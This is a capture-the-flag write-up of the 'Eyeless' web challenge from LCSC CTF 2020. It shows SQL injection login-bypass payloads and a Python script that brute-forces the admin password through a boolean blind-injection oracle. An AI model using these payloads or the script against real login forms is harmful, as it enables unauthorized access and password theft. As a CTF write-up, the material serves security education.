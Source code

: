 ```yaml
---
layout: writeup
title:  "Eyeless"
date:   2020-04-04 17:10:05 +0200
event: "LCSC CTF 2020"
categories: [writeup]
ctf_categories: [web, sql]
author: "punshLineLama"
---
```


# Eyeless
## TL;DR
Blind SQL injection. Create oracle and brute-force the flag.

## Description
The challenge was in the web category, gave 150 points and had the following description:
```
Hack without seeing! Find us the admin password.

Connect here: http://jh2i.com:50011
```

When opening the url in the bowser, we can see the following:

![alt text](img/website.png)


After some exploration, it seems that the site is prone to SQL injection.
When providing it with the following credentials:
```
Username: admin ' or 1=1 #
Password: 123
```
it was possible to login as admin.

The output says:
```
Good job, but no flag here. :[
```

But we don't get the admin password.
As we do not get much feedback from the website, its not possible to dump the database and simply read out the password.

When posting the following credentials:
```
Username: admin ' and 0=1 #
Password: 123
```

the output looks differently:
```
YOU HACKER !!! HACKER !!! GO AWAY, HACKER!!!
```
This means that, if we provide a query that results in `True`, we can a different prompt, that if the query results in `False`.

## Exploitation

We can use this to guess one character of the flag after the other.
Thus, the `substring(s, pos, nb)` function is used, which returns the substring of *s*, beginning at index *pos*, ending at *pos+nb*.

Putting this in a query:
```
Username: admin' and substring(password, index, 1) == 'guessed_char' #
Password: 123
```
Now we can put everything into a script and brute-force all the characters:

```python

import requests
#start session
s = requests.Session()
#define our set of valid characters
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9','0','_','{','}']
#The challenge url
URL = "http://jh2i.com:50011/"
#the final flag/admin password
passwd = []

def check():
        #Position of the character we want to provide to the oracle
        pos = 1
        while True:
                for x in dictionary:
                        print("Trying: "+x)
                        #Set the data to check if we guessed the character at position pos right.
                        data = {'username' : 'admin\' and substring(password,'+str(pos)+',1)=\''+str(x)+"\'#", 'password' : "123"}
                        # Post the data to the website.
                        r = s.post(url = URL, data = data)
                        #if we see the word "HACKER", we know that the guess character is not correct
                        if("HACKER" in r.text):
                                #print(r.text)
                                continue
                        #else, we know that we guessed it correctly, and add to our flag string
                        else:   
                                passwd.append(x)
                                #print password progress
                                print(''.join(passwd))
                                pos +=1
                                #if we have our last character, break the endless loop
                                if(str(x) == "}"):
                                        print(''.join(passwd))
                                        return
                                break

check()

```

Tdaa, and we get the flag: `lls{blind_sql_injection_cant_be_done_with_braille}`
